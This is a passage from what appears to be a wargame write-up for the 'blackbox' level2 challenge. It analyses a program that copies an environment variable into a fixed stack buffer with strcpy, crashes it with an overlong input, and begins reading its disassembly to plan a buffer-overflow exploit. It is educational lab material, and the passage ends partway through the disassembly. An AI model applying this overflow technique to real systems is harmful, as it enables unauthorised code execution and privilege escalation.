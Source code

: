 ```C

    return 0;
}
```

Well, it looks like the program reads some path from the environment variable called filename,  then appends it to the base path `"/tmp"` and uses the stat system call to find the owner of the file pointed to by the resulting path.

There also seems to be some loop that sanitizes the the input by removing all `'/'` from the beginning of filename.

So far this is pretty straightforward, except for the fact that the (sanitized) contents of filename are copied to the local buffer buf using an unsafe `strcpy`.

This means, that if filename is actually too long (bigger than 128-5, since buf is copied the constant string `"/tmp/"`), the `strcpy` will continue copying past the limits of `buf[128]` and into the stack frame.

This smells like a buffer overflow. Let's see if we can make it crash first:

```
level2@blackbox:~$ filename=`python -c "print 'A'*200"` ./getowner
The owner of this file is: 0
Segmentation fault
```

Yup, made it segfault.

Let's take a look at the disassembly of main to see what's going on there in terms of the stack frame, and how we can exploit it:

```
08048464 <main>:
 8048464: 55                    push   %ebp
 8048465: 89 e5                 mov    %esp,%ebp
 8048467: 53                    push   %ebx
 8048468: 81 ec 14 01 00 00     sub    $0x114,%esp
 804846e: 83 e4 f0              and    $0xfffffff0,%esp
 8048471: b8 00 00 00 00        mov    $0x0,%eax
 8048476: 29 c4                 sub    %eax,%esp
 8048478: c7 04 24 c0 86 04 08  movl   $0x80486c0,(%esp)
 804847f: e8 b4 fe ff ff        call   8048338 <getenv@plt>
 8048484: 89 45 f4              mov    %eax,0xfffffff4(%ebp)
 8048487: 83 7d f4 00           cmpl   $0x0,0xfffffff4(%ebp)
 804848b: 75 1b                 jne    80484a8 <main+0x44>
 804848d: c7 04 24 c9 86 04 08  movl   $0x80486c9,(%esp)
 8048494: e8 df fe ff ff        call   8048378 <printf@plt>
 8048499: c7 85 04 ff ff ff 01  movl   $0x1,0xffffff04(%ebp)
 80484a0: 00 00 00 
 80484a3: e9 86 00 00 00        jmp    804852e <main+0xca>
 80484a8: 90                    nop    
 80484a9: 8b 45 f4              mov    0xfffffff4(%ebp),%eax
 80484ac: 80 38 2f              cmpb   $0x2f,(%eax)
 80484af: 74 02                 je     80484b3 <main+0x4f>
 80484b1: eb 07                 jmp    80484ba <main+0x56>
 80484b3: 8d 45 f4              lea    0xfffffff4(%ebp),%eax
 80484b6: ff 00                 incl   (%eax)
 80484b8: eb ef                 jmp    80484a9 <main+0x45>
 80484ba: c7 44 24 04 e2 86 04  movl   $0x80486e2,0x4(%esp)
 80484c1: 08 
 80484c2: 8d 85 68 ff ff ff     lea    0xffffff68(%ebp),%eax
 80484c8: 89 04 24              mov    %eax,(%esp)
 80484cb: e8 b8 fe ff ff        call   8048388 <strcpy@plt>
 80484d0: 8d 9d 68 ff ff ff     lea    0xffffff68(%ebp),%ebx
 80484d6: 8d 85 68 ff ff ff     lea    0xffffff68(%ebp),%eax
 80484dc: 89 04 24              mov    %eax,(%esp)
 80484df: e8 74 fe ff ff        call   8048358 <strlen@plt>
```